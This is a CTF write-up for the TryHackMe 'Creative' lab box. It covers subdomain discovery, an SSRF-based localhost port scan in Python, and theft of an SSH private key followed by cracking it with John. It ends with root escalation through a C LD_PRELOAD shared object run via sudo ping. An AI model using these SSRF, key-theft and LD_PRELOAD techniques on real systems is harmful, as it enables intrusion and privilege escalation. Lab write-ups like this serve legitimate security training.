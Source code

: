 ```yaml
---
title: "THM - Creative writeup"
date: 2024-05-08
image: /assets/images/creative/banner_creative.png
tags:
  [
    tryhackme,
    writeups,
    nmap,
    dns,
    subdomain,
    ssrf,
    python,
    john_the_ripper,
    ld.so,
    c_lang,
    ld_preload,
  ]
categories: [TryHackMe, Writeup, CTF, Easy]
redirect_from: /2024/05/08/creative/
---
```


Hi,

This is my writeup about the [TryHackMe](https://tryhackme.com) box ["Creative"](https://tryhackme.com/r/room/creative).

## Information gathering

If you have read any of my older writeups, you know that I always have the same start:

```bash
nmap -Pn TARGET_MACHINE_IP -oN ports && nmap -Pn -sC -sV -p $(grep -Po '.*(?=/tcp)' ports | tr '\n' ',') TARGET_MACHINE_IP -oN services
```
{: .nolineno}

That scan reveals two open ports:

- 22 which is running OpenSSH
- 80 which is running Apache

## Redirection to FQDN

After trying to visit the website by type the ip into the browser url bar, the response is a redirection to the FQDN `creative.thm`, which results into a empty page. To solve this problem, I have to add the ip and the FQDN to my `/etc/hosts` file.

After that the website is shown as expected:

![creative.thm.png](/assets/images/creative/creative.thm.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

I have looked through the whole page but there are no hints there. I even scraped all the usernames and the structure of email address.

But all were useless and I have to change my direction.

### Forgotten door

I decided to search for subdomains with help of [gobuster](https://github.com/OJ/gobuster). And there is one subdomain:

![gobuster_vhost.png](/assets/images/creative/gobuster_vhost.png){:  .w-75 .shadow .rounded-10 w='1212' h='668' }

I used `subdomains-top1million-20000.txt` wordlist, but `rockyou.txt` will also work in this case.
Now lets have a look on that subdomain by adding it to the `/etc/hosts` file with the same ip as the main site.

![beta.creative.thm.png](/assets/images/creative/beta.creative.thm.png){:  .w-75 .shadow .rounded-10 w='1212' h='668' }

I should be able to give a url which will be "tested" from the target server. This looks like a opportunity for an [SSRF-attack](https://portswigger.net/web-security/ssrf#:~:text=Server%2Dside%20request%20forgery%20is,services%20within%20the%20organization's%20infrastructure.).

First let's open a simple http server locally and try to reach it from the target server.

```bash
python -m http.server 9090
```
{: .nolineno}

![targetToUs.png](/assets/images/creative/targetToUs.png){:  .w-75 .shadow .rounded-10 w='1212' h='668' }

Now that the proof is done, I have decided to check if I can check for open ports from internally. From external with help of nmap, I was able to find two open ports: 80 and 22.

First I checked the open port 22 and got a

```html
<p>Dead</p>
```
{: .nolineno}

response. Then, just to be sure that this really doesn't work, I checked port 80, which is also open. But this time, the response contains the whole main page as html text. By inspecting the request with developer tools, I had all needed information to create a simple portscanner with python.

![inspectURLTesting.png](/assets/images/creative/inspectURLTesting.png){:  .w-75 .shadow .rounded-10 w='1212' h='668' }

### DIY Portscan

```python
import requests
from concurrent.futures import ThreadPoolExecutor

def checkPort(port):
  data = {"url": f"http://localhost:{port}"}
  response = requests.post("http://beta.creative.thm", data=data)
  if "Content-Length" not in response.headers:
    print(f"Found open port: {port}")

with ThreadPoolExecutor(max_workers=30) as executor:
  executor.map(checkPort, list(range(1,65535)))
```

I'm checking for the `Content-Length` header, because it only appears when the port is not open. With this scan I was able to find out that port 1337 is accepting requests.

When requesting that port the response is the root directory of the server self.

## Footstep

From this point, to get the content of user.txt is straight forward, because I can just enter any directory I want to get the content of it. Just look at `/home/` to get the username and then into the user's home to find out the name of the file with the first flag.

After that I didn't waste time on bruteforcing the password for the user to get ssh connection. I just read the content of `~/.ssh` and grab the user's private key. The private key is encrypted, so to be able to use it and connect via ssh, I had to bruteforce it with john.

```bash
ssh2john id_rsa > id_rsa_hash
```
{: .nolineno}

```bash
john --wordlist ./rockyou.txt id_rsa_hash
```
{: .nolineno}

After that I was logged in as user saad via ssh.

## PrivEsc

The last step has to be done now. In order to get root, I've searched for any SUID oder Cronjob without luck.
To see if saad has some sudoers privileges, I have to get the password. But the cracked password for the private key is not the same as for the user. By looking into the users home directory, I observed the password in the `.bash_history` file.
And the user has sudoers privileges but only for using the ping command, which is useless for in order to gain root privileges. But there is something else...

![sudo-l.png](/assets/images/creative/sudo-l.png){:  .w-75 .shadow .rounded-10 w='1212' h='668' }

This is interesting, because we can use it to gain root access. (see [man8 - ld.so](https://man7.org/linux/man-pages/man8/ld.so.8.html))

For this I have created a simple `c` code:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD"); // To prevent further interceptions of library functions
  // Set user ID and Group to 0 (root)
  setgid(0);
  setuid(0);
  // Spawn a shell as root
  system("/bin/bash");
}
```

Then compile and run the code to get root.

```bash
gcc -fPIC -shared -o getRoot.so getRoot.c -nostartfiles
```
{: .nolineno}

The `-nostartfiles` is needed or the redefinition of \_init() would cause a compiling error.

```bash
sudo LD_PRELOAD=./getRoot.so ping
```
{: .nolineno}

Good luck! :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }
